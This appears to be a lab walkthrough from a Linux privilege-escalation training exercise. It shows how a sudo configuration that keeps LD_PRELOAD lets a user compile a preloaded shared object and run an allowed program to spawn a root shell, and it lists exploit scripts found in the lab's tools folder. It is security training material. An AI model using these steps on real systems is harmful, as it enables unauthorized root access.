 ## Sudo - Environment Variables
Sudo can be configured to inherit certain environment variables from the user's environment.

- Check which environment variables are inherited (look for the env_keep options):

    ```bash
    user@debian:~$ sudo -l
    Matching Defaults entries for user on this host:
        env_reset, env_keep+=LD_PRELOAD, env_keep+=LD_LIBRARY_PATH

    User user may run the following commands on this host:
        (root) NOPASSWD: /usr/sbin/iftop
        (root) NOPASSWD: /usr/bin/find
        (root) NOPASSWD: /usr/bin/nano
        (root) NOPASSWD: /usr/bin/vim
        (root) NOPASSWD: /usr/bin/man
        (root) NOPASSWD: /usr/bin/awk
        (root) NOPASSWD: /usr/bin/less
        (root) NOPASSWD: /usr/bin/ftp
        (root) NOPASSWD: /usr/bin/nmap
        (root) NOPASSWD: /usr/sbin/apache2
        (root) NOPASSWD: /bin/more
    ```

    LD_PRELOAD and LD_LIBRARY_PATH are both inherited from the user's environment. LD_PRELOAD loads a shared object before any others when a program is run. LD_LIBRARY_PATH provides a list of directories where shared libraries are searched for first.

- Create a shared object using the code located at `/home/user/tools/sudo/preload.c`:

    ```bash
    user@debian:~$ gcc -fPIC -shared -nostartfiles -o /tmp/preload.so /home/user/tools/sudo/preload.c
    ```

- Run one of the programs you are allowed to run via sudo (listed when running sudo -l), while setting the LD_PRELOAD environment variable to the full path of the new shared object:

    ```bash
    user@debian:~$ sudo LD_PRELOAD=/tmp/preload.so find
    root@debian:/home/user#
    ```

- A root shell should spawn. Exit out of the shell before continuing. Depending on the program you chose, you may need to exit out of this as well.

    ```bash
    root@debian:/home/user# exit
    exit
    .
    ./.mysql_history
    ./.nano_history
    ./tools
    ./tools/suid
    ./tools/suid/libcalc.c
    ./tools/suid/service.c
    ./tools/suid/exim
    ./tools/suid/exim/cve-2016-1531.sh
    ./tools/privesc-scripts
    ./tools/privesc-scripts/linpeas.sh
    ./tools/privesc-scripts/lse.sh
    ./tools/privesc-scripts/LinEnum.sh
    ./tools/nginx
    ./tools/nginx/nginxed-root.sh
    ./tools/sudo
    ./tools/sudo/library_path.c
    ./tools/sudo/preload.c
    ./tools/mysql-udf
